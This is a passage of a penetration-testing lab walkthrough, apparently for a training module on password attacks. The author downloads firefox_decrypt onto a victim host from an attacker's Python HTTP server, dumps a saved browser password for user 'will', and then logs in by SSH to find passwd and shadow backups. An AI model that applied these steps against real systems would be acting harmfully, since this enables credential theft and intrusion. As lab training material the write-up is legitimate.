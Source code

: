 After that you see that I displayed ip of my kali's vpn, so we need it to transfer this tool to victim via python server. On our attacking machine:
```c
python3 -m http.server 8080
```

On the victim machine after running previous command:
```c
kira@nix01:~$ wget http://10.10.16.31:8080 -r firefox_decrypt
```

After hitting enter the transfer process will begin, and we will need to wait for some time.
Once it is transferred we can use this tool to obtain the information about Will's creds:
```c
kira@nix01:~$ ls
10.10.16.31:8080  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
kira@nix01:~$ cd 10.10.16.31\:8080/
kira@nix01:~/10.10.16.31:8080$ ls
CHANGELOG.md     firefox_decrypt.py  LICENSE         README.md
CONTRIBUTORS.md  index.html          pyproject.toml  tests
kira@nix01:~/10.10.16.31:8080$ python3 firefox_decrypt.py 
Traceback (most recent call last):
  File "firefox_decrypt.py", line 46, in <module>
    PWStore = list[dict[str, str]]
TypeError: 'type' object is not subscriptable
kira@nix01:~/10.10.16.31:8080$ python3.9 firefox_decrypt.py 
Select the Mozilla profile you wish to decrypt
1 -> lktd9y8y.default
2 -> ytb95ytb.default-release
2
Website:   https://dev.inlanefreight.com
Username: 'will@inlanefreight.htb'
Password: 'TUqr7QfLTLhruhVbCP'
```


### Passwd, Shadow & Opasswd

23.  Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer. 

As we have Will's creds, we can ssh to the target at first:
```c
ssh will@ip
```

Then we can search for some files:
```c
will@nix01:~$ ls -la
total 36
drwxr-xr-x 5 will will 4096 Oct 15 17:15 .
drwxr-xr-x 5 root root 4096 Feb  9  2022 ..
drwxrwxr-x 2 will will 4096 Feb  9  2022 .backups
-rw------- 1 will will   81 Feb  9  2022 .bash_history
-rw-r--r-- 1 will will  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 will will 3771 Feb 25  2020 .bashrc
drwx------ 2 will will 4096 Oct 15 17:15 .cache
drwx------ 3 will will 4096 Oct 15 17:15 .config
-rw-r--r-- 1 will will  807 Feb 25  2020 .profile
will@nix01:~$ cd .backups/
will@nix01:~/.backups$ ls
passwd.bak  shadow.bak
```
